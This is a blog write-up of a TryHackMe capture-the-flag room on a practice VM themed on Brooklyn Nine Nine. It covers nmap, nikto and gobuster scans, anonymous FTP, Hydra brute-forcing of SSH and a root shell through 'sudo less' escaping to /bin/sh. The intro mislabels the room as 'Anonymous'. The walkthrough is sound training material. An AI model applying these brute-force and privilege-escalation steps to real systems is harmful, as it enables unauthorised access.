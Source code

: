 ```yaml
---
title: Brooklyn Nine Nine Writeup | TryHackMe
date: 2022-07-20 00:00:00 +/-TTTT
categories: [Writeup, TryHackMe]
tags: [writeup, tryhackme, gobuster, nmap, pentest]
author:
  name: v3r4x
---
```


## Overview

Welcome to my write-up for the [Anonymous room](https://tryhackme.com/room/anonymous) on [TryHackMe](https://tryhackme.com).  Unlike other rooms, this has very little hand-holding, so you must have a good knowledge base and methodology before attempting this room.  However, the room is of easy difficulty, so anyone can attempt to hack this box.  In preparation, I recommend you consult my other write-ups on [Kenobi](/posts/kenobi-writeup-tryhackme/) and [Mr Robot](/posts/mr-robot-tryhackme-writeup/).

In order to complete this room, we must enumerate the target machine's FTP server and website, bruteforce SSH credentials using Hydra in order to gain initial access, and escalate our privileges via misconfigured binaries.

I hope you enjoy!

## Walkthrough

Once we have established our connection to the VM, we begin by enumerating the machine by running an nmap scan:

```console
$ nmap -sC -sV -T4 -p- 10.10.240.107 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-20 22:26 BST
Nmap scan report for 10.10.240.107
Host is up (0.070s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.1.103
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.06 seconds
```

Here is a quick overview of the above scan:
- `-sC`: Will perform a script scan using a set of default scripts.
- `-sV`: Will probe open ports to determine service and version information.
- `-T4`: Sets the timing for the scan (higher is faster).
- `-p-`: Specifies all ports will be scanned (1-65535).

From the output, it shows we have **3 ports** open on the target machine, namely **FTP (21)**, **SSH (22)**, and **HTTP (80)**.

It also appears that anonymous access is enabled on the FTP service on port 21, so we can login:

![](/assets/posts/20220720/ftp_anonymous.png)

As highlighted, there is a `note_to_jake.txt` which reads:

```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

Now that the FTP server has been enumerated, we can move onto the webserver.

![](/assets/posts/20220720/homepage.png)

It is good practice to manually crawl the website while you run additional scans.  In particular, we can run `nikto` to scan the website for vulnerabilities, and `gobuster` to check for additional subdirectories, while we check the website in our browser.  The output of such scans are as follows:

```console
$ nikto -h http://10.10.240.107
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.240.107
+ Target Hostname:    10.10.240.107
+ Target Port:        80
+ Start Time:         2022-07-20 22:44:40 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Server may leak inodes via ETags, header found with file /, inode: 2ce, size: 5a5ee14bb8d76, mtime: gzip
+ Allowed HTTP Methods: GET, POST, OPTIONS, HEAD 
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7889 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2022-07-20 22:51:12 (GMT1) (392 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

```console
$ gobuster dir -u http://10.10.240.107 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | tee gobuster 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.240.107
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/07/20 22:42:33 Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 278]
Progress: 220512 / 220561 (99.98%)            ===============================================================
2022/07/20 23:00:01 Finished
===============================================================
```

Viewing the source code of the homepage reveals the following comment:

![](/assets/posts/20220720/source_code.png)

We can see if there is any data hidden within the image using steghide:

```console
$ wget http://10.10.240.107/brooklyn99.jpg

$ steghide info brooklyn99.jpg
"brooklyn99.jpg":
  format: jpeg
  capacity: 3.5 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase:
```

It appears that there is a `.jpeg` file embedded within the image, but it requires a passphrase in order to be extracted.

From the `note_to_jake.txt` file on the FTP server, it appears Jake's password is particularly weak.  Therefore, we can `hydra` to bruteforce his password on the SSH server:

![](/assets/posts/20220720/hydra.png)

With the password, we are now able to login as the `jake` user via SSH, but we still cannot crack the passphrase for the image.

![](/assets/posts/20220720/jake_ssh.png)

However, there is no `user.txt` within the `jake` user's `/home` directory.  Listing the contents of the `/home` directory, there appears to be two other users: `amy` and `holt`.  The `user.txt` flag is contained within the `holt` user's `/home` directory:

![](/assets/posts/20220720/user_flag.png)

Now that we have the `user.txt` flag we find a way to escalate our privileges to `root`.  Firstly, we can check if we can run any binaries with `sudo` using the `sudo -l` command:

```console
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

As shown, we can run the `less` binary with `sudo` without any password, meaning we can elevate our privileges to `root`.  To do this, we can consult [GTFObins](https://gtfobins.github.io/gtfobins/less/#sudo) for the `less` binary.  In particular, we can run the following as `jake` in order to become `root` and retrieve the `root.txt` flag:

```
sudo less /etc/profile
!/bin/sh
```

![](/assets/posts/20220720/root_flag.png)

## Closing Remarks

And that's it!  All done!

I hope you all enjoyed this room and learned a thing or two.  I really am trying to up my game with these writeups and tutorials for my own learning and so I can share my knowledge with you.

If you want to keep up-to-date on what I do, follow me here:

- [Twitter](https://twitter.com/0xV3R4X)
- [GitHub](https://github.com/0xv3r4x)

Or you can also support me by buying me a coffee:

<a href="https://www.buymeacoffee.com/v3r4x" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: auto !important; width: auto !important;"></a>

Stay curious

\- v3r4x